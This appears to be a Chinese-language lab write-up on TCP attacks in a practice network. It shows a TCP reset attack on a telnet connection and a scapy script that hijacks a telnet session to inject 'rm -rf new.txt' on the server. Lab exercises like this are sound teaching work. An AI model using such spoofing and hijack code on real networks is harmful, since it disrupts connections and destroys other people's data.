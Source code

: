 ```
echo "deb http://mirrors.163.com/ubuntu/ precise-security universe" >>/etc/apt/sources.list
echo "deb-src http://mirrors.163.com/ubuntu/ precise-security universe" >>/etc/apt/sources.list
echo "deb http://mirrors.163.com/ubuntu/ precise-security multiverse" >>/etc/apt/sources.list
echo "deb-src http://mirrors.163.com/ubuntu/ precise-security multiverse" >>/etc/apt/sources.list
echo "deb http://extras.ubuntu.com/ubuntu precise main" >>/etc/apt/sources.list
echo "deb-src http://extras.ubuntu.com/ubuntu precise main" >>/etc/apt/sources.list
```

不用全搞，实测搞几个就可以了

更新apt-get源

```
apt-get update
apt-get install python3-pip
```

在攻击机中运行文件RSTattack.py

```
python3 RSTattack.py
```

![image-20241120195418479](C:\Users\29450\AppData\Roaming\Typora\typora-user-images\image-20241120195418479.png)

在telnet连接的时候，随便输入一个字符（即发送任意的数据包），就能被攻击者篡改其中的标志位，从而断开连接。

![image-20241120195533211](C:\Users\29450\AppData\Roaming\Typora\typora-user-images\image-20241120195533211.png)

### Task3. TCP的会话劫持攻击

将victim作为服务器，user1作为客户端，seed-attacker作为攻击机。

在victim中新建new.txt

```
touch new.txt
echo "helloworld！" >>new.txt
```

![image-20241121102027031](C:\Users\29450\AppData\Roaming\Typora\typora-user-images\image-20241121102027031.png)

![image-20241121102533857](C:\Users\29450\AppData\Roaming\Typora\typora-user-images\image-20241121102533857.png)

在客户机上telnet服务器，查看刚才创建的文件“new.txt”

![image-20241121102616170](C:\Users\29450\AppData\Roaming\Typora\typora-user-images\image-20241121102616170.png)

在攻击机上用Python代码发起会话劫持攻击，删除服务器上的“new.txt”

```python
#!/usr/bin/env python3
from scapy.all import *

def spoof_pkt(pkt):
	ip = IP(src=pkt[IP].dst, dst=pkt[IP].src)
	tcp = TCP(sport=pkt[TCP].dport, dport=23,
              flags="A",
              seq=pkt[TCP].ack, ack=pkt[TCP].seq+1)
	data = "rm -rf new.txt"
	pkt = ip/tcp/data
	ls(pkt)
	send(pkt, verbose=0)
	
f = f'tcp and src host 10.9.0.5'
pkt = sniff(iface='br-51a3ed64a0eb', filter=f, prn=spoof_pkt)

```
